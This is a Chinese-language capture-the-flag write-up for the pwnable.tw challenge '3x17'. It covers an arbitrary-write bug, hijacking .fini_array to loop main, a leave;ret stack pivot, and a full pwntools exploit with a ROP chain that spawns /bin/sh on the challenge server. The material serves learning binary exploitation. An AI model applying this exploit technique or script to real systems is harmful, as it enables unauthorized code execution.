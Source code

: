 ```yaml
---
title: 3 x 17
categories:
- pwnable.tw
---
```

# pwnable.tw->3x17

## 前言

做Kidding做不下去看了一眼别人wp自闭了，然后开始做这个分值比较低的新题，自闭++，依然是看着别人wp调的，感觉是纯考动态调试的题，这个题告诉我们不要瞅着代码瞎看，动手找很重要

## 程序逻辑

程序是静态编译的，这意味着代码段的地址是固定的，又是使用ROP的题，这里的函数需要猜一下，其中write和read里进行了系统调用，比较容易识别，strtol()这个搞不懂，不过动态调试的时候可以看到最终的结果是返回输入的数字到rax里，可以猜到是个把字符串转换成整数的函数。程序主要功能是往指定地址写入指定数据

![main](./1.jpg)

## 漏洞利用

程序本身就是任意地址写了，漏洞比较明显，重点在于这一次的覆写如何进行，我以前做的类似的题是直接patch掉if成loop多次覆写最终拿到flag，不过那个偏逆向，这里main的代码段是不可写的只得作罢，之后去看wp发现了一个新的东西叫做.fini_arrary,是程序执行完毕之后执行的函数，这个数组里存着两个函数地址，根据
[reference](https://docs.oracle.com/cd/E19683-01/817-1983/6mhm6r4es/index.html)，有以下的关键信息
>The runtime linker executes functions whose addresses are contained in the .fini_array section. These functions are executed in the reverse order in which their addresses appear in the array. The runtime linker executes a .fini section as an individual function. If an object contains both .fini and .fini_array sections, the functions defined by the .fini_array section are processed before the .fini section for that object.

也就是说这个数组的两个函数以倒序依次被执行，我们可以通过覆写.fini_array的内容来控制执行流，根据这个数组的调用，可以找到实际调用函数的位置，这个函数位于0x402960，这里调用的是[rbp+rbx*8]，调用地址为0x402988，我们不妨直接Gdb断点下在此处看看调用的是什么结果。

![call_fini_array](./2.jpg)

可以看到在调用前rbx为1，rbp为0x4b40f0即.fini_array，即调用arr[1]，继续调试，可以看到rbx变为0之后和-1比较cmp不相等，因此再次执行call [rbp+rbx*8]，即调用arr[0]，刚好符合我们之前查到的资料。我们第一次覆写的目的是构造一个类似while的闭环，使得我们可以无限次写入，若只是覆写其中一个为main，则只能覆写一次，执行完Main之后就GG。因此我们的初步想法是把arr[1]改为main_addr，arr[0]改为一个调用调用函数的函数地址(0x402960)，这样的效果就是调用arr[1]进了main，调用arr[0]又进了调用arr[1]和arr[0]的函数，继续调用main，继续调用0x402960继而调用main...而当我们完成rop的时候，只需要修改arr[0]为rop的起始地址，就可以调用它完成getshell。

![0x402988](./3.jpg)

### ROP的布置

ROP并不像以前那样布置在栈上依次执行，我们的数据需要通过pop_register之类的命令从栈上获取到寄存器里，因此我们需要知道rsp、rbp的情况，这里又得动态去调试。我们先不布置rop，arr[1]为main_addr,arr[0]为leave_ret_adddr(0x401c4b)。断点下在0x401c4b。
```asm
call [rbp]
//rsp = ?,rbp = 0x4b40f0
leave
(mov rsp,rbp;
//rsp = 0x4b40f0 = rbp
pop rbp)
//rsp = 0x4b40f8, rbp = 0x401c4b(leave_ret_addr)
ret(to 0x401b6d,main_addr)
//rsp = 0x4b4100, rbp = 0x401c4b
push rbp;
//rsp = 0x4b40f8, rbp = 0x401c4b
mov rbp, rsp;
// rbp = rsp = 0x4b40f8
....
// rsp = 0x4b40c8, rbp = 0x4b40f8
mov rsp, rbp;
// rsp = 0x4b40f8 = rbp
pop rbp;
// rsp = 0x4b4100, rbp = 0x401c4b
ret(to 0x4b4100)

```

![leave_ret](./4.jpg)

![final_stack](./5.jpg)

也就是说最后操作完毕，rsp = rip = 0x4b4100, rbp = 0x401c4b。我们需要修改的就是0x4b4100的内容，布置ROP链，最后让arr[0]为leave_ret_addr即可。注意此时rsp和rip一样，因此可以直接当成栈里的情况布置ROP,一个pop_ret跟一个参数即可。

## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level='info')
context.terminal = ['tmux','split','-h']
debug = 0

if debug:
    p = process('./317')
    #gdb.attach(p,'b* 0x401c29')
else:
    p =remote('chall.pwnable.tw',10105)

def send_data(addr,data):
    p.recvuntil('addr:')
    p.sendline(str(addr))
    p.recvuntil('data:')
    p.send(data)

def exp():
    fini_arr_addr = 0x4b40f0
    main_addr = 0x401b6d
    loop_func_addr = 0x402960
    leave_ret_addr = 0x401c4b
    send_data(fini_arr_addr, p64(loop_func_addr)+p64(main_addr))

    #rop chain
    pop_rax = 0x41e4af
    pop_rdi = 0x401696
    pop_rsi = 0x406c30
    pop_rdx = 0x446e35
    syscall_addr = 0x471db5
    start_addr = 0x4b4100
    binsh_addr = 0x4B4080
    send_data(start_addr,p64(pop_rax)+p64(59))
    send_data(binsh_addr,"/bin/sh\x00")
    send_data(start_addr+16,p64(pop_rdi)+p64(binsh_addr))
    send_data(start_addr+32,p64(pop_rsi)+p64(0))
    send_data(start_addr+48,p64(pop_rdx)+p64(0))
    send_data(start_addr+64,p64(syscall_addr))
    #trigger rop
    send_data(fini_arr_addr,p64(leave_ret_addr))

    p.interactive()

exp()

```

